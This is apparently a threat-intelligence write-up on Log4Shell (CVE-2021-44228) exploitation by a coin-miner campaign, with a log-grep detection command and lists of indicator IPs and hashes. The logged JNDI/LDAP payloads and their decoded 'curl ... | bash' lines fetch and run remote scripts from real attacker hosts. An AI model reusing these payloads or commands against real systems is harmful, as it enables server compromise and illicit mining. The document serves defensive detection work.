

# CVE-2021-44228

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36](https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.



``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

A certain number of other IOCs appear into ``ls[.]sh`` file that are listed bellow


#### IOCs

45.155.205.233   
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
92.242.40.21
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b 

#### Additional IOCs

207.38.87.6  
34.81.218.76  
42.112.28.216  
80.211.206.105  
207.38.87.6  
31.210.20.181  
3.215.110.66  
45.137.151.106  
111.90.159.106  
185.181.10.234  
146.71.79.230  
122.51.164.83  
185.191.32.198  
